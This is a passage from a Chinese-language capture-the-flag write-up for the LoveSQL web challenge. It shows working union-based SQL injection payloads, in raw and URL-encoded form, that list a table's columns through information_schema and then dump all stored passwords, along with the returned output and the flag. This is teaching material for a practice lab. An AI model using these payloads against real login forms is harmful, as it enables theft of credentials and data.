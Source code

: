 得到：

Your password is 'geekuser,l0ve1ysq1'

说明有两个表geekuser和l0ve1ysql

猜flag在后者里面，继续用information_schema爆字段：

?username=admi' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'#
?username=admi%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27l0ve1ysq1%27%23

返回：

Your password is 'id,username,password'

这三个字段得到了之后，就去查查password吧：

?username=admi' union select 1,2,group_concat(password) from l0ve1ysq1#
?username=admi%27%20union%20select%201,2,group_concat(password)%20from%20l0ve1ysq1%23

返回：

Your password is 'wo_tai_nan_le,glzjin_wants_a_girlfriend,biao_ge_dddd_hm,linux_chuang_shi_ren,a_rua_rain,yan_shi_fu_de_mao_bo_he,cl4y,di_2_kuai_fu_ji,di_3_kuai_fu_ji,di_4_kuai_fu_ji,di_5_kuai_fu_ji,di_6_kuai_fu_ji,di_7_kuai_fu_ji,di_8_kuai_fu_ji,Syc_san_da_hacker,flag{16f097c0-bd77-4e64-980f-5f3e878aacd1}'

最后一栏就是flag！

## [极客大挑战 2019]BabySQL
